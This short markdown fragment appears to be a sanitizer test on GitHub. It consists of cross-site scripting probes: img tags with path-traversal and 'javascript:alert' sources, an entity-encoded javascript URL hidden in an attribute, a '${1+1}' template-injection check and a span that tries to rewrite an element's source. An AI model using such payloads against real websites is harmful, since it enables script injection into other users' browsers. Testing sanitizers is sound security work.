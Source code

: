 ![

<img src="../../../../../../../img/onload/../../r89shi/r89shi.github.io/blob/master/teste.js">

<img src="../../../../\javascript:alert(2);">XXX</a>

<img id="meu" src="" tabindex=&#60;&#106;&#97;&#118;&#97;&#115;&#99;&#114;&#105;&#112;&#116;&#58;&#97;&#108;&#101;&#114;&#116;&#40;&#41;></div>
<div id="${1+1}">bbbb</div>
<span value="javascript:document.getElementById('user-content-meu').src='123';">aaa</span>

](()
